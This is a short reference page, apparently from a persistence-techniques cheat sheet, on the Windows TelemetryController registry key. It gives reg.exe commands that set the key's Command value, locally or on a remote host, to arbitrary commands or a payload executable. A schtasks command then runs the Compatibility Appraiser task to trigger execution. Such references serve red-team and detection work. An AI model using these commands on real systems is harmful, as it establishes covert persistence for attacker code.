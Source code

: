 # TelemetryController

```
C:\> reg.exe query "[\\<IP>\]SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController"
```

```
C:\> reg.exe add "[\\<IP>\]SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController" /t REG_SZ /v Command /d "<commands>" /f

C:\> reg.exe add "[\\<IP>\]SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController" /t REG_SZ /v Command /d "C:\path\to\payload.exe" /f
```

```
C:\> schtasks.exe /run /tn "\Microsoft\Windows\Application Experience\Microsoft Compatibility Appraiser"
```

---
## References

- [Persistence Info: TelemetryController](https://persistence-info.github.io/Data/telemetrycontroller.html)
